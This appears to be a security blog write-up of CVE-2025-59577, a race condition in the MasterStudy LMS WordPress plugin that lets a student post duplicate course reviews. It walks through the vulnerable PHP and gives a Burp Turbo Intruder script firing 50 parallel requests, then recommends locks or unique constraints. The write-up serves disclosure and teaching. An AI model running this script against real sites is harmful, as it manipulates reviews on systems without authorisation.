

# CVE-2025-59577 Analysis & POC


<!--more-->

## CVE & Basic Info

The **Concurrent Execution using Shared Resource with Improper Synchronization (Race Condition)** vulnerability in **Stylemix MasterStudy LMS** allows exploiting race conditions. This issue affects MasterStudy LMS versions up to **3.6.20**.

* **CVE ID**: [CVE-2025-59577](https://www.cve.org/CVERecord?id=CVE-2025-59577)
* **Vulnerability Type**: Bypass Vulnerability
* **Affected Versions**: <= 3.6.20
* **Patched Versions**: 3.6.21
* **CVSS severity**: Low (4.3)
* **Required Privilege**: Subcriber
* **Product**: [WordPress MasterStudy LMS Plugin](https://wordpress.org/plugins/masterstudy-lms-learning-management-system/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** – **MasterStudy LMS**:

  * `3.6.20` – **vulnerable**
  * `3.6.21` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Analysis

The plugin registers the following action hook:

```php
add_action( 'wp_ajax_stm_lms_add_review', 'STM_LMS_Reviews::add_review', 100 );
```

`wp_ajax_` is a hook for logged-in users. When a request is sent to `/wp-admin/admin-ajax.php` with the parameter `action=stm_lms_add_review`, the callback `add_review()` is executed:

```php {title="reviews.php v3.6.20" hl_lines=[43,46] data-open=true}
public static function add_review() {
    check_ajax_referer( 'stm_lms_add_review', 'nonce' );

    if ( empty( $_POST['post_id'] ) ) {
        die;
    }
    $course_id = intval( $_POST['post_id'] );

    if ( ! is_user_logged_in() ) {
        $error_message = wp_kses_post(
            sprintf(
                __( 'Please, <a href="%s" class="masterstudy-single-course-reviews__login-link" target="_blank">login</a> to leave a review', 'masterstudy-lms-learning-management-system' ),
                esc_url( STM_LMS_User::login_page_url() )
            )
        );
    }

    if ( STM_LMS_Course::check_course_author( $course_id, get_current_user_id() ) ) {
        $error_message = esc_html__( 'You can\'t leave a review for your own course', 'masterstudy-lms-learning-management-system' );
    }

    if ( ! empty( $error_message ) ) {
        return wp_send_json(
            array(
                'error'   => true,
                'status'  => 'error',
                'message' => $error_message,
            )
        );
    }

    $mark   = ( ! empty( $_POST['mark'] ) ) ? intval( $_POST['mark'] ) : 0;
    $review = ( ! empty( $_POST['review'] ) ) ? wp_kses_post( $_POST['review'] ) : '';

    if ( ! STM_LMS_Options::get_option( 'course_allow_review', true ) ) {
        if ( ! STM_LMS_User::has_course_access( $course_id ) ) {
            $r = array(
                'error'   => true,
                'status'  => 'error',
                'message' => esc_html__( 'You must purchase the course to leave a review', 'masterstudy-lms-learning-management-system' ),
            );
        } else {
            $r = self::create( $course_id, $mark, $review );
        }
    } else {
        $r = self::create( $course_id, $mark, $review );
    }

    wp_send_json( $r );
}
```

In `add_review()`, the plugin performs several checks:

* Nonce validation (CSRF protection)
* Check whether the user is logged in
* Prevent instructors from reviewing their own courses
* Check whether the user has purchased the course (if required by settings)

After these checks pass, the function does not create the review itself but delegates everything to:

```php
$r = self::create( $course_id, $mark, $review );
```

```php {title="reviews.php v3.6.20" hl_lines=[15,63,72] data-open=true}
public static function create( $course_id, $mark, $review ) {
        $current_user = STM_LMS_User::get_current_user();
        if ( empty( $current_user['id'] ) ) {
            die;
        }
        $user_id = $current_user['id'];

        $r = array(
            'error'   => false,
            'status'  => 'success',
            'message' => esc_html__( 'Your review is moderating.', 'masterstudy-lms-learning-management-system' ),
        );

        /* Check if user has review */
        $prev_reviews = self::get_user_review_on_course( $course_id, $user_id );
        if ( $prev_reviews->found_posts ) {
            $r = array(
                'error'   => true,
                'status'  => 'error',
                'message' => esc_html__( 'You already left review.', 'masterstudy-lms-learning-management-system' ),
            );
        }

        if ( empty( $mark ) ) {
            $r = array(
                'error'   => true,
                'status'  => 'error',
                'message' => esc_html__( 'Please, check rating', 'masterstudy-lms-learning-management-system' ),
            );
        }

        if ( empty( $review ) ) {
            $r = array(
                'error'   => true,
                'status'  => 'error',
                'message' => esc_html__( 'Please, write review.', 'masterstudy-lms-learning-management-system' ),
            );
        }

        if ( ! $r['error'] ) {
            if ( $mark > 5 ) {
                $mark = 5;
            }
            if ( $mark < 1 ) {
                $mark = 1;
            }

            /* Create post object */
            $my_review = array(
                'post_type'    => 'stm-reviews',
                'post_title'   => wp_strip_all_tags(
                    sprintf(
                        esc_html__( 'Review on %1$s by %2$s', 'masterstudy-lms-learning-management-system' ),
                        get_the_title( $course_id ),
                        $current_user['login']
                    )
                ),
                'post_content' => $review,
                'post_status'  => 'pending',
            );

            $review_id = wp_insert_post( $my_review );

            $meta_fields = array(
                'review_course' => $course_id,
                'review_user'   => $user_id,
                'review_mark'   => $mark,
            );

            foreach ( $meta_fields as $meta_key => $meta_value ) {
                update_post_meta( $review_id, $meta_key, $meta_value );
            }

            $course_title = get_the_title( $course_id );
            $login        = $current_user['login'];

            STM_LMS_Helpers::send_email(
                'admin',
                esc_html__( 'New Review', 'masterstudy-lms-learning-management-system' ),
                sprintf(
                    esc_html__( 'Check out new review on course %1$s by %2$s', 'masterstudy-lms-learning-management-system' ),
                    $course_title,
                    $login
                ),
                'stm_lms_new_review',
                compact( 'course_title', 'login' )
            );

            delete_transient( STM_LMS_Instructor::transient_name( $current_user['id'], 'rating' ) );
        }

        return $r;
    }
```

In `create()`, the plugin checks whether the user has already reviewed the course:

```php
$prev_reviews = self::get_user_review_on_course( $course_id, $user_id );
if ( $prev_reviews->found_posts ) {
    ...
}
```

If no review is found, the plugin proceeds with:

```php
$review_id = wp_insert_post( $my_review );
update_post_meta(...)
```

However, there is no **lock** or **transaction** to ensure that the state “no existing review” is still valid at the time of writing to the database.

**Real-world Race Condition scenario**:

Assume the user sends **two parallel requests**:

* Request A checks: no review exists → valid
* Request B checks: no review exists → valid
* Request A creates a review
* Request B also creates a review

Result: The database ends up with two reviews from the same user for the same course, even though the business logic allows only one review per user per course.

> [!NOTE]
> To create a review, you must first register and log in with a **student** account at:
> `http://localhost/user-account/`
>
> The system requires login to perform the review function.
>
> 

## Flow



## Proof of Concept (PoC)

1. Register and log in with a **student** account.
2. Visit any course and enable **Intercept** in Burp Suite.
3. Submit a review, capture the request, **Send to Turbo Intruder**, then **drop** the original request.
4. In Turbo Intruder, modify the script as follows to send many parallel requests:

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(
        endpoint=target.endpoint,
        concurrentConnections=20,
        requestsPerConnection=1,
        pipeline=False
    )

    for i in range(50):
        engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```

5. Click **Attack** to start sending concurrent requests and observe the result (multiple reviews created at the same time).


## Conclusion

The vulnerability exists because the plugin uses a **check-then-insert** pattern without any **locking** or **database transaction** mechanism. When multiple AJAX requests are processed in parallel, all of them can pass the “no existing review” check before any request writes to the database, allowing a single user to create multiple reviews for the same course. This breaks the business logic that should restrict each user to only one review per course.

## Key Takeaways

* Race conditions can occur even when proper authentication and authorization checks are in place.
* “Check then write” logic must be protected with **locks** or **transactions** when concurrent processing is possible.
* AJAX endpoints are especially prone to race condition exploitation because attackers can easily send many concurrent requests.
* Preventing duplicates should be enforced at the **database level** (e.g., unique constraints) or with explicit locking mechanisms in code.

## References

[Race Condition](https://patchstack.com/academy/wordpress/vulnerabilities/race-condition/)

[WordPress MasterStudy LMS Plugin <= 3.6.20 is vulnerable to Race Condition](https://patchstack.com/database/wordpress/plugin/masterstudy-lms-learning-management-system/vulnerability/wordpress-masterstudy-lms-plugin-3-6-20-race-condition-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2026-01-24-cve-2025-59577/  

